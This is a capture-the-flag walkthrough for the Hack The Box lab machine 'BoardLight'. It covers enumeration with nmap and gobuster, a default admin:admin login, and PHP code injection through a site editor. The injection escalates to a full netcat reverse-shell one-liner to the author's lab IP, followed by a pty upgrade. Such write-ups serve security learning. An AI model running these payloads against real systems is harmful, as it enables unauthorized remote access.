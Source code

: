 # BoardLight

![image](https://github.com/user-attachments/assets/2b73bf05-62a1-4243-8386-b94047464da6)

Hi! Today we have a machine **BoardLight**. So, let's start.

## Enumiration

(don't forget to add **board.htb** to `hosts`)

As usually as usual, we start with **nmap**.

![image](https://github.com/user-attachments/assets/9b29279e-1896-45f1-8310-8e26be5d5498)

Here we can see two ports, **http** (80) and **SSH** (22). Well, let's check website.

# Checking HTTP (80 port)

![image](https://github.com/user-attachments/assets/19c61d38-de44-45c2-a2ef-919c80781105)

After browsing the site, I didn't find anything special, so let's check the directories using **gobuster**

```
gobuster dir -u http://board.htb -w /usr/share/dirb/wordlists/common.txt
```

![image](https://github.com/user-attachments/assets/e9e60b7e-ac7c-4e83-8a07-782c2c47d0a4)

Hmm, nothing interesting. Let's check the subdomains.

```
gobuster dns -d board.htb -w subdomains-top1million-5000.txt
```

![image](https://github.com/user-attachments/assets/aea9a0f7-8b5a-494b-b430-0c93de7205c6)

1 subdomain, let's check it out

![image](https://github.com/user-attachments/assets/40bd5fe5-fa4d-470f-9ca5-1131b38b55d2)

And yes! That's it. I tried the standard login and password `admin:admin` and it worked.

![image](https://github.com/user-attachments/assets/6d752c5a-23d4-4226-aa4c-1e3214cec510)

The protection has worked, so we have limitations(

The **websites** tab immediately catches your eye:

![image](https://github.com/user-attachments/assets/4f0738ed-a0e1-4ecb-be16-bcaa40029dab)

Here we can create our own website.

![image](https://github.com/user-attachments/assets/42b0dc9d-7f76-4b5c-bc25-84b26a7209f1)

I created some kind of random website. You can also edit the html code

![image](https://github.com/user-attachments/assets/708ebb79-25ff-4806-b72e-7bde3a7c1e81)

Let's write a simple PHP code for check:

```
<?PHP echo system("whoami");?>
```

![image](https://github.com/user-attachments/assets/174d5968-20c8-4cd8-bddf-9fbf957e3bca)

Save and click on the binoculars icon to view our website.

![image](https://github.com/user-attachments/assets/7f66eb6e-9593-405b-b6ea-3ef4afcae1e3)

![image](https://github.com/user-attachments/assets/ec7829c6-b231-49f3-8ddf-984a1a9e03f4)

And here is our vulnerability, the site has issued a response to the `whoami` command. Let's try to get **reverse shell**.

My site crashes VERY often, so it needs to be recreated every time...

```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.181 9999 >/tmp/f");?>
```
Instead of my ip, put yours, (you can view it using the command `ip a`, it will be in tun0).

we launch **netcat** through the terminal:

```
nc -lvnp 9999
```

Now, save it again and click on the binoculars and we get access to the server!.

![image](https://github.com/user-attachments/assets/791538f2-97cf-4cea-873c-d81609b06067)

For convenience, we create a terminal interface.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


